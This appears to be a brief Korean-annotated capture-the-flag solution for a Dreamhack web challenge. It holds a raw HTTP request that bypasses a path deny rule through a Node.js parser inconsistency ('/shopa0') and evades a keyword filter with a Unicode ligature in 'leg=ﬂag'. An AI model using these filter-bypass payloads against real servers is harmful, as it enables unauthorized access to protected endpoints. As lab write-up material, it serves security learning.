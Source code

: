 POST /shopa0  HTTP/1.1   # / -> a0로 바꾸어 deny 우회 -> node.js의 취약점이용
Host: host8.dreamhack.games:9956
Cache-Control: max-age=0
Accept-Language: ko-KR,ko;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-None-Match: W/"8-Xty1/Kc+ju9CTVJXgXw9VeZxq18"
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 11


leg=ﬂag  # flag에서 fl를 튀르키에어로 사용해서 대소문자 필터링 우회

https://blog.bugport.net/exploiting-http-parsers-inconsistencies  -> node.js의 취약점